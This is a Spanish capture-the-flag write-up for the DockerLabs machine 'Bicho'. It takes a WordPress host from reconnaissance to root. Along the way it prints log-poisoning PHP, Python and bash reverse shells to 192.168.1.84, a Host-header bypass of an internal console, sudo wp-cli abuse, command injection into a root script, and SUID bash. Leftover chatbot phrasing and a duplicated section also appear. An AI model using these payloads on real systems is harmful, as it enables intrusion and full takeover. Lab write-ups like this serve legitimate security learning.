# 🧠 **Informe de Pentesting – Máquina: Bicho**

### 💡 **Dificultad:** Fácil

📦 **Plataforma:** DockerLabs

🌐 **Objetivo:** Obtener acceso total (root) explotando servicios expuestos y configuraciones inseguras en una instalación de WordPress.

---

## 🚀 **Despliegue de la Máquina**

Se inicia la máquina vulnerable descomprimiendo el archivo y ejecutando el script de despliegue:

```bash
unzip bicho.zip
sudo bash auto_deploy.sh backend.tar
```


---

## 📶 **Comprobación de Conectividad**

Validamos que la máquina responde:

```bash
ping -c1 172.17.0.2
```


---

## 🔍 **Escaneo de Puertos**

### 🔎 Escaneo Total

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

**Puertos abiertos:**

* `22/tcp`: SSH
* `80/tcp`: HTTP


### 🧩 Detección de Servicios

```bash
nmap -sCV -p22,80 172.17.0.2 -oN target.txt
```


---

## 🧭 **Reconocimiento Web**

### 🖥️ Acceso inicial

Al acceder a `http://172.17.0.2`, se muestra una página de bienvenida.


### 🧾 Hosts

Agregamos el nombre de dominio al archivo `/etc/hosts`:

```bash
sudo nano /etc/hosts
# Añadir línea:
172.17.0.2 bicho.dl
```


---

### 🔎 Análisis con WhatWeb

```bash
whatweb http://bicho.dl
```

Detectamos que el sitio corre **WordPress 6.6.2**.


---

## 🛠️ **Enumeración en WordPress**

### 🔍 WPScan

Enumeramos usuarios y directorios:

```bash
wpscan --url http://bicho.dl/ --enumerate u
```

* Usuario encontrado: `bicho`
* Archivos sensibles y rutas descubiertas


---

### 🗂️ Fuzzing de Directorios

```bash
gobuster dir -u http://bicho.dl/wp-content/ \
-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
-t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

**Rutas encontradas:**

* `/index.php`
* `/themes/`
* `/uploads/`
* `/plugins/`
* `/fonts/`
* `/upgrade/`


---

## 🕵️‍♂️ **Log Poisoning en WordPress**

### 🐾 Archivo sospechoso

Durante el escaneo detectamos `debug.log`:

```bash
http://bicho.dl/wp-content/debug.log
```


---

### 🐚 Inyección vía User-Agent

Interceptamos el http://bicho.dl/wp-content/debug.log con Burp Suite y lo mandamos a **Repeater**.

Modificamos la cabecera:

```
User-Agent: <?php phpinfo(); ?>
```
---

### 💥 Ejecución exitosa

Al visitar de nuevo el archivo `debug.log`, vemos la ejecución de `phpinfo()`:


---

## 🐍 **Obteniendo Reverse Shell**

### 🧨 Inyección de Payload

Escuchamos con Netcat:

```bash
sudo nc -lvnp 443
```

Entramos a: 

```CMD
http://bicho.dl/wp-login.php 
```
Que wp-login.ph es la pagina de login por defecto de wordpress 

```php
<?php echo `printf c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjg0LzQ0MyAwPiYx | base64 -d | bash`; ?>
```

📌 *Este código inyecta un comando que conecta de vuelta al atacante.*


---

## 🔐 **Post-Explotación y Escaneo Interno**

### 🧾 Puertos internos

```bash
netstat -tuln
```

```text
127.0.0.1:3306    → MySQL  
127.0.0.1:5000    → Web Interno  
```

---

## 🔁 **Tunelización de Puertos con Socat**

### 🚫 Error inicial

`socat` no está disponible y al transferirlo, aparece un error de librería:

```bash
./socat: error while loading shared libraries: libwrap.so.0
```

---

### ✅ Solución

1. **Transferir socat y la librería:**

```bash
# En máquina atacante
cp /usr/bin/socat .
cp /usr/lib/x86_64-linux-gnu/libwrap.so.0 .
python3 -m http.server 8000
```

2. **En la víctima:**

```bash
cd /tmp
wget http://192.168.1.84:8000/socat
wget http://192.168.1.84:8000/libwrap.so.0 -O /tmp/libwrap.so.0
chmod +x socat
export LD_LIBRARY_PATH=/tmp
```

3. **Tunelizar:**

```bash
./socat TCP-LISTEN:7755,fork TCP:127.0.0.1:5000
```
Nota: Tambien tuve que instalar libwrap.so.2 lo descargue en mi maquina host e segui el mismo procesos que los otros 2.


---

## 🌐 **Exploración del Servicio Interno**

Visitamos:

```
http://172.17.0.2:7755/
```

¡Y accedemos a la web interna!


---

### 📂 Fuzzing interno

```bash
gobuster dir -u http://172.17.0.2:7755/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

📌 Ruta importante encontrada: `/console`


Al entrar a la ruta http://172.17.0.2:7755/console nos da error 400




---

Claro, aquí tienes una redacción clara y explicativa pensada para alguien sin conocimientos previos en ciberseguridad:

---

### 🧪 Interacción con Burp Suite para acceder a consola protegida

Comenzamos accediendo a la siguiente página web desde el navegador:

```
http://172.17.0.2:7755/console
```

Una vez ahí, utilizamos **Burp Suite**, una herramienta que nos permite interceptar y modificar las peticiones que hace el navegador. En este caso, vamos a cambiar el encabezado `Host` de la solicitud para intentar acceder a funciones ocultas del sistema.

#### Paso 1: Cabecera original

Esta es la cabecera `Host` que se envía normalmente:

```
Host: 172.17.0.2:7755
```



#### Paso 2: Cabecera modificada

La modificamos por:

```
Host: 127.0.0.1
```

Esto hace que el sistema piense que la petición viene del propio servidor, y nos da acceso a una consola de administración que normalmente estaría protegida.



---

### 🔒 Acceso a la consola interna

Una vez cambiamos el valor del `Host` y desactivamos el **intercept (intercepción)** en Burp Suite, logramos visualizar una **consola de administración interna protegida**.



Esta consola nos muestra un mensaje de que está lista para recibir comandos:

```
[console ready]
>>>
```

Esto nos da la pista de que podríamos estar ante una consola que interpreta comandos en **Python**.



---

### 🧪 Prueba para ejecutar código Python

Para probar si efectivamente podemos ejecutar comandos en Python, ingresamos lo siguiente en la consola:

```python
print(__import__('subprocess').check_output('whoami',shell=True).decode())
```

Este comando intenta ejecutar el programa `whoami` en el sistema, que nos dirá con qué usuario estamos conectados. Activamos de nuevo el proxy y la intercepción en Burp Suite, presionamos Enter, y realizamos la misma modificación del `Host` que antes (cambiándolo a `127.0.0.1` y apagando la intercepción).

El resultado fue que obtuvimos el nombre del usuario del sistema: `app`.


Esto **confirma que la consola permite ejecutar código Python**, lo cual es un gran hallazgo.

---

### 🐚 Obteniendo una Reverse Shell

Ahora que sabemos que podemos ejecutar Python, vamos a intentar obtener una **reverse shell**, es decir, hacer que el servidor se conecte de vuelta a nuestra máquina para darnos una terminal interactiva.

Primero, en nuestra máquina (la del atacante), activamos un **modo escucha** en el puerto 433 con el siguiente comando:

```bash
sudo nc -lvnp 433
```

Luego, en la consola del servidor, ingresamos el siguiente payload en Python:

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.84",433));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")
```

Este código hace que el servidor abra una conexión hacia nuestra IP (`192.168.1.84`) en el puerto 433, y nos entregue una shell interactiva (una terminal).



Después de escribir el código, activamos el proxy, activamos la intercepción en Burp Suite, presionamos Enter y volvemos a modificar el `Host` a `127.0.0.1` antes de apagar la intercepción.



Inmediatamente después, en la terminal donde habíamos activado el modo escucha, recibimos una **shell interactiva** como el usuario `app`.



---

### 🧠 Escalada de privilegios con wp-cli

Ya con acceso como el usuario `app`, ejecutamos el siguiente comando para ver si podemos usar `sudo` sin contraseña:

```bash
sudo -l
```

El resultado nos muestra que el usuario `app` puede ejecutar `/usr/local/bin/wp` como el usuario `wpuser` sin necesidad de contraseña.

Intentamos usar el siguiente comando para ejecutar código con `wp`:

```bash
sudo -u wpuser /usr/local/bin/wp eval
```

Sin embargo, nos da un error porque no hay una instalación de WordPress configurada. Para solucionarlo, creamos una carpeta temporal para simular una instalación:

```bash
mkdir /tmp/fakewp
chmod 777 /tmp/fakewp
cd /tmp/fakewp
sudo -u wpuser /usr/local/bin/wp core download
```

Esto descarga una copia de WordPress en el directorio falso `/tmp/fakewp`, permitiéndonos luego ejecutar comandos de WordPress desde ahí.



---

Con esto, hemos logrado:

* Acceder a una consola protegida usando Burp Suite.
* Confirmar la ejecución de código Python.
* Obtener una reverse shell como usuario `app`.
* Identificar un método de escalada de privilegios usando `wp-cli`.

Claro, aquí tienes todo explicado paso a paso con un lenguaje claro y amigable para alguien que no tenga conocimientos técnicos previos. También se mantienen todas las rutas y las imágenes mencionadas:

---

## 🧪 Accediendo a una consola interna usando Burp Suite

### 1. Entramos a la consola oculta

Abrimos la siguiente página en el navegador:
`http://172.17.0.2:7755/console`

Luego, usamos **Burp Suite**, una herramienta que nos permite interceptar y modificar las peticiones del navegador. Lo que hicimos fue cambiar el valor de la cabecera **Host** para engañar al sistema.

* Valor original del **Host**:

  ```
  Host: 172.17.0.2:7755
  ```

  

* Valor modificado:

  ```
  Host: 127.0.0.1
  ```

  

Después de hacer este cambio, apagamos la opción *intercept is on* en Burp Suite para permitir que la petición se envíe.

Esto nos dio acceso a una consola de administración interna protegida.

---

### 2. Verificamos si acepta código Python

En esa consola, escribimos el siguiente código en Python para ver si realmente lo ejecuta:

```python
print(__import__('subprocess').check_output('whoami',shell=True).decode())
```

Este código le dice a la máquina que ejecute el comando `whoami`, que nos muestra qué usuario está corriendo la consola.

Resultado:
¡Funcionó! Nos devolvió que somos el usuario `app`.


---

### 3. Obtenemos una **reverse shell**

Una **reverse shell** es una forma de conectarnos a la máquina víctima desde la nuestra, como si estuviéramos físicamente ahí.

Primero, desde nuestra terminal local (nuestra máquina), nos ponemos a la escucha del puerto 433 con este comando:

```bash
sudo nc -lvnp 433
```

Luego, en la consola vulnerable, enviamos el siguiente código (también en Python):

```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.84",433));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty;
pty.spawn("bash")
```

Activamos el proxy y el *intercept* en Burp Suite, enviamos el código, lo modificamos para que el host sea `127.0.0.1`, apagamos el *intercept*, y…

¡Boom! Aparecemos conectados como el usuario `app` en nuestra terminal:


---

## 🧑‍💻 Ejecutamos comandos como otro usuario

Ejecutamos este comando para ver qué puede hacer el usuario `app` con permisos elevados:

```bash
sudo -l
```

Nos dice que `app` puede ejecutar este archivo como otro usuario (`wpuser`) **sin pedir contraseña**:

```bash
/usr/local/bin/wp
```

Pero cuando intentamos usarlo con el comando:

```bash
sudo -u wpuser /usr/local/bin/wp eval 'system("id");'
```

Nos da un error porque el sistema busca una instalación de WordPress que no existe.

---

### 4. Creamos un WordPress falso

Creamos un entorno falso para engañar al sistema:

```bash
mkdir /tmp/fakewp
chmod 777 /tmp/fakewp
sudo -u wpuser /usr/local/bin/wp core download --path=/tmp/fakewp
```

Esto descarga WordPress en esa carpeta.

Copiamos el archivo de configuración de ejemplo:

```bash
cp /tmp/fakewp/wp-config-sample.php /tmp/fakewp/wp-config.php
chmod 777 /tmp/fakewp/wp-config.php
```

Ahora, desde otra terminal en la que somos el usuario `www-data`, copiamos el archivo de configuración real:

```bash
cd /var/www/bicho.dl
cat wp-config.php > /tmp/fakewp/wp-config.php
```

Esto le da a nuestro WordPress falso la información de acceso a la base de datos real.

---

### 5. Ejecutamos comandos como `wpuser`

Probamos otra vez:

```bash
sudo -u wpuser /usr/local/bin/wp --path=/tmp/fakewp eval 'system("id");'
```

¡Funcionó! Ahora somos `wpuser`.



---

### 6. Obtenemos otra reverse shell

Desde nuestra máquina local, nos ponemos a la escucha en otro puerto:

```bash
nc -lvnp 4444
```

Luego ejecutamos:

```bash
sudo -u wpuser /usr/local/bin/wp --path=/tmp/fakewp eval 'system("bash -c \"bash -i >& /dev/tcp/192.168.1.84/4444 0>&1\"");'
```

¡Y otra shell, ahora como `wpuser`!



---

## 📈 Escalada de privilegios a root

### 1. Verificamos qué puede hacer `wpuser`

Con el comando:

```bash
sudo -l
```

Vemos esto:

```bash
(root) NOPASSWD: /opt/scripts/backup.sh
```

Significa que podemos ejecutar ese archivo **como root y sin contraseña**.

---

### 2. Exploramos el archivo

Intentamos esto (incorrectamente):

```bash
cd /opt/scripts/backup.sh
```

Pero no funciona porque es un archivo, no una carpeta.

Lo correcto es:

```bash
cd /opt/scripts/
ls -la
```

Vemos que el archivo es ejecutable por `wpuser`.

---

### 3. Inyectamos un comando

Probamos esto:

```bash
sudo /opt/scripts/backup.sh "test; whoami;"
```

El resultado:

```bash
root
```

✅ ¡Estamos ejecutando comandos como root!

---

### 4. Nos convertimos en root con bash

Ahora usamos esa capacidad para modificar el archivo `/bin/bash` y darle permisos especiales (SetUID):

```bash
sudo /opt/scripts/backup.sh "test; chmod u+s /bin/bash | echo 'Permisos establecidos de forma correcta...';"
```

Esto hace que cada vez que ejecutemos `bash`, lo haga con permisos de **root**.

Verificamos:

```bash
ls -la /bin/bash
```

Vemos una `s` en lugar de `x`, lo que indica que el permiso está activo:

```
-rwsr-xr-x 1 root root ... /bin/bash
```

---

### 5. Obtenemos la shell como **root**

Ejecutamos:

```bash
bash -p
```

Y luego:

```bash
whoami
```

¡Y ya está!

```bash
root
```


---

✅ **¡Hemos escalado a root con éxito!**

---


